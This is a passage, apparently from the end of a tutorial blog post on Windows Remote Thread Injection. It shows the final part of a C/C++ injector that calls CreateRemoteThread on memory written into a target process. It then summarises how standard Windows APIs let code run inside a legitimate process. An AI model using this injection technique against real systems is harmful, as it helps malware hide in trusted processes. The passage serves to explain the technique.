 ```c
    HANDLE remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    if (remoteThread == NULL) {
        std::cout << "[-] Failed to create remote thread.\n";
        return 1;
    }
    std::cout << "[+] Remote thread created successfully.\n";

    CloseHandle(remoteThread);
    CloseHandle(processHandle);

    std::cout << "[+] Injection completed!\n";

    return 0;
}

```
There are several more advanced techniques when it comes to Process Injection, and I might write more about them in the future.

---

In this text, we take a deep dive into the Remote Thread Injection method, an advanced type of Process Injection. By using Windows APIs like CreateProcess, VirtualAllocEx, WriteProcessMemory, and CreateRemoteThread, we can insert malicious code into legitimate processes, making that code run within the context of the target process.

